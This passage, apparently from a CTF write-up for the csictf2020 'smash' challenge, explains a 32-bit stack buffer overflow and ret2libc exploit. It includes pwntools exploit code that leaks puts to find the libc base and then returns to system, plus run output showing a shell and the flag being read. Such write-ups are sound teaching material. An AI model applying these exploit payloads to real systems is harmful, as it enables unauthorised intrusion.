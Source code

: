 ```python
p.recvuntil('!')
p.interactive()
```

This is not unlike [pwn intended 0x3 remote shell](https://github.com/datajerk/ctf-write-ups/tree/master/csictf2020/small_pwns#exploit-remote-shell), however, this is for 32-bits, and can be brittle (see below).

From the source (above) `local_88` is `0x88` bytes from the return address on the stack (just how Ghidra names locals, quite handy).  So, just send 0x88 _non-null_ bytes, followed by a call to `puts`, then the return to `main` (from `puts`) and the argument to `puts`--the address of, well, `puts`.

This will leak the address of `puts` for computing the base of libc.

After the _ret2main_, do the same BOF, but this time return to `system` and get a shell.

> This did not work on my Ubuntu 18 dev container because `system` ends in `\x00` and `strcpy` stops and the first null, fortunately, the challenge server does not have this version of libc.

Output:

```bash
# ./exploit3.py
[*] '/pwd/datajerk/csictf2020/smash/hello'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chall.csivit.com on port 30046: Done
[*] '/pwd/datajerk/csictf2020/smash/libc-database/db/libc6-i386_2.23-0ubuntu11.2_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0xf7dad150
[*] baselibc: 0xf7d4e000
[*] Switching to interactive mode

$ cat flag.txt
csictf{5up32_m4210_5m45h_8202}
```


### Exploit 4: _nulls?_ null problem

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./hello')
context.update(arch='i386',os='linux')

p = process(binary.path)
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#p = remote('chall.csivit.com', 30046)
#libc = ELF('libc-database/db/libc6-i386_2.23-0ubuntu11.2_amd64.so')

payload  = 0x88 * b'A'
payload += p32(binary.plt.puts)
payload += p32(binary.sym.main)
payload += p32(binary.got.puts)

p.sendlineafter('name?\n', payload)
p.recvuntil('!\n')
```